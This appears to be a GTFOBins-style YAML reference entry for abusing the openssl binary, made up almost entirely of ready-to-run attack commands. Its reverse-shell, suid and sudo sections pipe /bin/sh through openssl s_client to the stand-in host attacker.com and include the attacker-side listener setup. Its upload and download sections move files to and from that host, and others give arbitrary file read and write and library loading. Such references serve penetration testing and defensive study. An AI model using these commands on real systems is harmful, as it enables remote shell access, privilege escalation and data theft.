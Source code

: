 functions:
  reverse-shell:
    - description: |
        To receive the shell run the following on the attacker box:

            openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
            openssl s_server -quiet -key key.pem -cert cert.pem -port 12345

        Communication between attacker and target will be encrypted.
      code: |
        RHOST=attacker.com
        RPORT=12345
        mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect $RHOST:$RPORT > /tmp/s; rm /tmp/s
  file-upload:
    - description: |
        To collect the file run the following on the attacker box:

            openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
            openssl s_server -quiet -key key.pem -cert cert.pem -port 12345 > file_to_save

        Send a local file via TCP. Transmission will be encrypted.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        openssl s_client -quiet -connect $RHOST:$RPORT < "$LFILE"
  file-download:
    - description: |
        To send the file run the following on the attacker box:

            openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
            openssl s_server -quiet -key key.pem -cert cert.pem -port 12345 < file_to_send

        Fetch a file from a TCP port, transmission will be encrypted.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_save
        openssl s_client -quiet -connect $RHOST:$RPORT > "$LFILE"
  file-write:
    - code: |
        LFILE=file_to_write
        echo DATA | openssl enc -out "$LFILE"
    - code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo "DATA" > $TF
        openssl enc -in "$TF" -out "$LFILE"
  file-read:
    - code: |
        LFILE=file_to_read
        openssl enc -in "$LFILE"
  suid:
    - description: |
        To receive the shell run the following on the attacker box:

            openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
            openssl s_server -quiet -key key.pem -cert cert.pem -port 12345

        Communication between attacker and target will be encrypted.
      code: |
        RHOST=attacker.com
        RPORT=12345
        mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | ./openssl s_client -quiet -connect $RHOST:$RPORT > /tmp/s; rm /tmp/s

    - code: |
        LFILE=file_to_write
        echo DATA | openssl enc -out "$LFILE"
  sudo:
    - description: |
        To receive the shell run the following on the attacker box:

            openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
            openssl s_server -quiet -key key.pem -cert cert.pem -port 12345

        Communication between attacker and target will be encrypted.
      code: |
        RHOST=attacker.com
        RPORT=12345
        mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | sudo openssl s_client -quiet -connect $RHOST:$RPORT > /tmp/s; rm /tmp/s
  library-load:
    - code: openssl req -engine ./lib.so
---
